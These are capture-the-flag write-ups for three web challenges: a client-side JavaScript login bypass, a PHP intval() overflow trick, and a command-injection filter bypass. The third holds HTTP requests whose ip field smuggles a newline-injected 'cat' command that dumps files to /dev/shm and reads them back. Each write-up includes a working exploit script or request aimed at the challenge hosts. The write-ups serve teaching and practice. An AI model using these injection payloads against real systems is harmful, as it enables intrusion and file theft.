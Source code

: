 # Global Redirect Exploit

## Overview
This writeup details the exploitation of a client-side authentication bypass in a web application. By analyzing the page source, we can directly access a hidden endpoint and retrieve the flag.

## Analysis
Upon viewing the page source, we find the following JavaScript code responsible for authentication:

```javascript
<script>
      function loginAuthenticate(){
        var password = document.getElementById("password");
        var hash = sjcl.hash.sha256.hash(password);
        var hexRepresentation = sjcl.codec.hex.fromBits(hash);
        if (hexRepresentation == "2a70282a868c0ca9e6fe5bb5cf2ac2ea6b523062102bada26fb87091d511e3f1"){
          alert("welcome Home Admin");
          window.location = "./0078f62f00305b73de6ccace8f9fc1f68a8f1dcec865d33fcacbaf255ddefaa7";
        }else{
          alert("Incorrect Password. Please Try Again");
        }
        alert(hash);
      }
</script>
```

### Exploit Strategy
- The authentication mechanism relies on JavaScript, meaning it can be bypassed.
- The password is hashed using SHA-256 and compared with a hardcoded hash.
- If the hash matches, the user is redirected to `./0078f62f00305b73de6ccace8f9fc1f68a8f1dcec865d33fcacbaf255ddefaa7`.
- Instead of brute-forcing the password, we can directly navigate to the endpoint.

## Exploit Execution
Using Python and the `requests` module, we can fetch the contents of the hidden endpoint and extract the flag:

```python
import requests
import re

url = "http://chal.bearcatctf.io:39724/0078f62f00305b73de6ccace8f9fc1f68a8f1dcec865d33fcacbaf255ddefaa7"

response = requests.get(url)

flag_match = re.search(r'BCCTF\{.*?\}', response.text)

if flag_match:
    print(flag_match.group(0))  # Prints only the flag
else:
    print("Flag not found!")
```

## Conclusion
By bypassing the client-side authentication and directly accessing the endpoint, we successfully retrieve the flag without needing to crack the SHA-256 hash. This highlights the importance of server-side validation in authentication mechanisms.

---

# Numberizer Exploit

## Overview
This writeup explains how we exploit a PHP-based number validation logic to obtain a flag. The vulnerability lies in how the program processes numeric inputs, allowing us to manipulate them to achieve an unintended negative sum.

## Analysis
Examining the PHP code:

```php
<?php
ini_set("error_reporting", 0);

if(isset($_GET['source'])) {
    highlight_file(__FILE__);
}

include "flag.php";

$MAX_NUMS = 5;

if(isset($_POST['numbers']) && is_array($_POST['numbers'])) {

    $numbers = array();
    $sum = 0;
    for($i = 0; $i < $MAX_NUMS; $i++) {
        if(!isset($_POST['numbers'][$i]) || strlen($_POST['numbers'][$i])>4 || !is_numeric($_POST['numbers'][$i])) {
            continue;
        }
        $the_number = intval($_POST['numbers'][$i]);
        if($the_number < 0) {
            continue;
        }
        $numbers[] = $the_number;
    }
    $sum = intval(array_sum($numbers));

    if($sum < 0) {
        echo "You win a flag: $FLAG";
    } else {
        echo "You win nothing with number $sum ! :-(";
    }
}
?>
```

### Exploit Strategy
- The program processes an array of numbers submitted via `POST`.
- It checks if values are numeric and restricts input length to 4 characters.
- It converts numbers using `intval()`, which processes certain inputs incorrectly.
- The sum must be negative to obtain the flag.

## Exploit Execution
We exploit the behavior of `intval()` with scientific notation. `intval("9e99")` evaluates to a very large positive integer, but when summed, it can cause an integer overflow, resulting in a negative sum.

```python
import requests
import re

url = "http://52.59.124.14:5004/"

data = {
    "numbers[]": ["9e99", "9e99", "9e99", "9e99", "9e99"]
}

response = requests.post(url, data=data)

flag_match = re.search(r'ENO\{.*?\}', response.text)

if flag_match:
    print(flag_match.group(0))  # Prints only the flag
else:
    print("Flag not found!")
```

## Conclusion
By leveraging `intval()` misinterpretation of scientific notation, we force an integer overflow to achieve a negative sum. This grants access to the flag, demonstrating how improper input validation can lead to unintended behavior.

---

# Unhealth 2: The Sequel Exploit

## Overview
This challenge involves bypassing a security mechanism that detects command injection attempts. By leveraging indirect file writing and retrieval, we successfully extract the flag.

## Analysis
- The `/health-check` endpoint accepts a `POST` request with an `ip` parameter.
- Sending a normal `ping` request to an IP returns output.
- Command injection attempts (e.g., `ip=127.0.0.2; cat /flag.txt`) are blocked, triggering `HACKING DETECTED`.
- However, by writing command output to `/dev/shm/` (a temporary filesystem), we can later retrieve the flag.

## Exploit Execution
### Step 1: Write file contents to `/dev/shm/`
```http
POST /health-check HTTP/1.1
Host: chal.bearcatctf.io:30812
Content-Type: application/x-www-form-urlencoded

ip=127.0.0.1%0A%20cat%20%2f*%20%3E%20%2Fdev%2Fshm%2Fcontents1.txt
```

### Step 2: Retrieve the contents
```http
POST /health-check HTTP/1.1
Host: chal.bearcatctf.io:30812
Content-Type: application/x-www-form-urlencoded

ip=127.0.0.1%0A%20cat%20%2Fdev%2Fshm%2Fcontents1.txt
```

## Conclusion
By using an indirect method to write and retrieve data, we bypass the command injection filter and extract the flag. This challenge highlights the importance of strict input sanitization in command execution contexts.

